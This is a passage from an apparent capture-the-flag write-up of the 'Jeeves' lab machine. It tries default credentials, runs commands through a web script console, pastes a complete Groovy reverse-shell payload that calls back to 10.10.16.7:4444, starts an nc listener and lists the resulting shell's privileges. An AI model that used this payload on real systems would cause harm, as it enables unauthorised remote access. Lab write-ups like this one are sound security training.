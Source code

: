 ![image.png]({{ site.baseurl }}/assets/jeeves/image%204.png)

We try default credential admin:admin to try and login; did not work. Playing around the site, we find script console: 

![image.png]({{ site.baseurl }}/assets/jeeves/image%205.png)

Let’s see if we can run commands:

```bash
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

It worked:

![image.png]({{ site.baseurl }}/assets/jeeves/image%206.png)

Let’s get a reverse shell:

```bash
String host="10.10.16.7";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Before we click Run, let’s also start a listener:

```bash
nc -lnvp 4444
```

We now have shell as kohsuke user:

![image.png]({{ site.baseurl }}/assets/jeeves/image%207.png)

Let’s check our privileges:

```bash
whoami /priv

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
